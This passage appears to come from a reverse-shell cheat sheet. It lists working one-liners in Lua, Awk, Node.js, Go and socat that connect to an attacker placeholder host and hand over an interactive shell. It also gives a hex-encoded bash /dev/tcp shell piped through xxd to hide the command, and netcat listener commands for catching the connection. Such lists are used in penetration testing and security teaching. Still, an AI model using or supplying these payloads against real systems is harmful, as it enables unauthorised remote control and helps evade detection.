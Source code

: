```lua
lua -e "require('socket');require('os');t=socket.tcp();t:connect('<ATTACKER_IP>','<ATTACKER_PORT>');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

## Awk

```bash
awk 'BEGIN {s = "/inet/tcp/0/<ATTACKER_IP>/<ATTACKER_PORT>"; while(1) { printf "> " |& s; if ((s |& getline c) > 0) print c |& s; close(c)}}'
```

## Node.js

```javascript
node -e 'sh=require("child_process").spawn("/bin/bash",[],{stdio:["pipe","pipe","pipe"]});s=require("net").Socket().connect(<ATTACKER_PORT>,"<ATTACKER_IP>",()=>{s.pipe(sh.stdin);sh.stdout.pipe(s);sh.stderr.pipe(s)})'
```

## Golang

```bash
echo 'package main;import("net";"os/exec");func main(){c,_:=net.Dial("tcp","<ATTACKER_IP>:<ATTACKER_PORT>");cmd:=exec.Command("/bin/bash");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

## Socat

**If `socat` is available on the target:**
```bash
socat tcp-connect:<ATTACKER_IP>:<ATTACKER_PORT> exec:/bin/bash,pty,stderr
```
(You would listen with `socat file:`tty`,raw,echo=0 tcp-listen:<ATTACKER_PORT>`).

## Obfuscated Bash

**Using `xxd` to encode and then decode:**
```bash
echo "<HEX_ENCODED_SHELL_COMMAND>" | xxd -r -p | bash
```
Example (the hex string represents `bash -i >& /dev/tcp/<ATTACKER_IP>/<ATTACKER_PORT> 0>&1`):
```bash
echo "62617368202d69203e26202f6465762f7463702f3c41545441434b45525f49503e2f3c41545441434b45525f504f52543e20303e2631" | xxd -r -p | bash
```

## Listener Commands (On Attacker Machine)

To catch the reverse shell, you typically use a listener. `netcat` (nc) is the most common:

**Basic Listener:**
```bash
nc -lvnp <ATTACKER_PORT>
```
*   `-l`: Listen mode
*   `-v`: Verbose output
*   `-n`: Numeric-only IP addresses (no DNS lookups)
*   `-p`: Local port number
